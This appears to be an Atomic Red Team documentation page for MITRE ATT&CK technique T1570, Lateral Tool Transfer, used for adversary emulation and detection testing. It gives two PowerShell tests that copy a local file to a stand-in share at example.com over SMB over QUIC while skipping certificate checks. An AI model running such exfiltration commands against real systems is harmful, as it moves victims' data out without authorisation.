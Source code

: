 ```yaml
---
tags: [T1570, atomic_test]
filename: "[[T1570|T1570 - Lateral Tool Transfer]]"
---
```


# T1570 - Lateral Tool Transfer
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1570)
<blockquote>Adversaries may transfer tools or other files between systems in a compromised environment. Once brought into the victim environment (i.e., [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)) files may then be copied from one system to another to stage adversary tools or other files over the course of an operation.

Adversaries may copy files between internal victim systems to support lateral movement using inherent file sharing protocols such as file sharing over [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002) to connected network shares or with authenticated connections via [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001).(Citation: Unit42 LockerGoga 2019)

Files can also be transferred using native or otherwise present tools on the victim system, such as scp, rsync, curl, sftp, and [ftp](https://attack.mitre.org/software/S0095). In some cases, adversaries may be able to leverage [Web Service](https://attack.mitre.org/techniques/T1102)s such as Dropbox or OneDrive to copy files from one machine to another via shared, automatically synced folders.(Citation: Dropbox Malware Sync)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)](#atomic-test-1---exfiltration-over-smb-over-quic-new-smbmapping)

- [Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)](#atomic-test-2---exfiltration-over-smb-over-quic-net-use)


<br/>

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>
